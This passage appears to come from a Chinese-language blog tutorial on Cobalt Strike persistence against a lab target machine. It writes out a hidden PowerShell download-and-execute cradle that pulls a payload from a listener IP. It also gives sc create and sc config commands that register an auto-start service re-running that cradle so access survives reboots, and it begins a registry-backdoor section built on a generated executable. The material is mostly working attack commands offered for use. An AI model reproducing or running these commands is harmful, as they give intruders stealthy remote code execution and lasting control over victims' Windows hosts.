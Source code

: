 选择监听器<br />![](https://img-blog.csdnimg.cn/7b334b7bb70345288a7d208d5812f7d2.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_17,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=aGDws&originHeight=527&originWidth=603&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

点击开始生成如下命令
```
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.1.28:80/a'))"
```

在靶机上执行上面生成的命令会上线具有普通用户权限的主机<br />![](https://img-blog.csdnimg.cn/b7f415ec59184fb8a445535ff5fbba13.png#crop=0&crop=0&crop=1&crop=1&id=huBdu&originHeight=195&originWidth=1242&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

提权之后打开beacon shell并执行命令
```
shell sc create "name" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://192.168.183.28:80/a'))\""
```

![](https://img-blog.csdnimg.cn/df46091561f34702af4199f4ed243bd8.png#crop=0&crop=0&crop=1&crop=1&id=kDawD&originHeight=125&originWidth=1254&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

在靶机上查看服务<br />![](https://img-blog.csdnimg.cn/66ca4179d91b4f04b4333170a50fc569.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_20,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=dj5Rk&originHeight=524&originWidth=922&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

将服务改为自动
```
shell sc config "name" start= auto
```

![](https://img-blog.csdnimg.cn/e16d52f38a67460a9250c600c805ea6e.png#crop=0&crop=0&crop=1&crop=1&id=JPbI1&originHeight=121&originWidth=460&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
![](https://img-blog.csdnimg.cn/33828f61f05d426680593da8979d34d3.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_14,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=JpWdH&originHeight=524&originWidth=523&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

当靶机重启后依旧可以拿到权限


## 注册表后门
点击攻击->生成后门->windows executable<br />![](https://img-blog.csdnimg.cn/67627f7efde347aca75b93605960b3d0.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_10,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=qF6kn&originHeight=204&originWidth=375&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

设置监听<br />![](https://img-blog.csdnimg.cn/77380794437440e29ec8044b7f5789e0.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_19,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=VlqQ5&originHeight=520&originWidth=672&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)

保存到桌面<br />![](https://img-blog.csdnimg.cn/61dd5068200b4ce4b554f62acf954b61.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBA5bCP6bij5ZCM5a2mU0VD,size_19,color_FFFFFF,t_70,g_se,x_16#crop=0&crop=0&crop=1&crop=1&id=Jv0hf&originHeight=447&originWidth=687&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=)
